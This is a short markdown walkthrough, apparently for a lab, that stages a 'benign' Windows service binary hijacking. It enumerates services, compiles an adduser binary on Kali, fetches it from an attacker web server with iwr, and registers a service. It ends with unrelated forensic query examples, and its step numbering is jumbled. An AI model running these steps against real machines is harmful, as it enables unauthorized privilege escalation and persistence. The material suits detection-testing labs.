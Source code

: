 # Steps to fabricate attack(safe) on Windows
This document denotes how we can fabricate a plausible attack on a Windows machine.

We demonstrate a Windows service binary hijacking(that is benign in nature).

## Step 1: Enumeration
### Open PowerShell and key in this command to look at which services are running to determine what to hijack
``` Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'} ``` 
#### We want to obtain a binary that is not located in C:\\WINDOWS\\sys32

## Step 2: Create malicious binary in Kali Linux: 
### Create and compile binary: 
``` x86_64-w64-mingw32-gcc adduser.c -o adduser.exe ```
### Start web server in same directory as binary created:
``` python3 -m http.server``` 
### Download on Windows client (PowerShell):
```iwr -uri http://192.168.75.130:8000/adduser.exe -Outfile adduser.exe```

## Step 2
### Open PowerShell as administrator and run the following command:
``` sc.exe create WeakService binPath= "C:\Temp\WeakService\goodservice.exe" start= auto ``` 


e.g 

`can you give me all network connections on MACHINENAME and look for suspicious processes?`

`can you tell me which artifacts target the USN journal` 